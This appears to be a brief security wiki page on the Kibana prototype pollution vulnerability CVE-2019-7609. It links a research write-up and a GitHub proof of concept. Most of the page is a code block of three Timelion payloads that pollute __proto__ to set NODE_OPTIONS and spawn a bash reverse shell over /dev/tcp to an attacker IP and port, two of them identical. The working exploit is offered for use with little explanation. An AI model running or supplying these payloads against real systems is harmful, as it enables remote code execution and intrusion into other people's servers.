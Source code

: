 # Prototype pollution (CVE-2019-7609)

{% embed url="https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609" %}

[https://github.com/mpgn/CVE-2019-7609](https://github.com/mpgn/CVE-2019-7609)

```
# Now I just need to turn it into a real RCE with the following code in Timelion:
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

#1
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/127.0.0.1/6666 0>&1\'");//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

#2
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
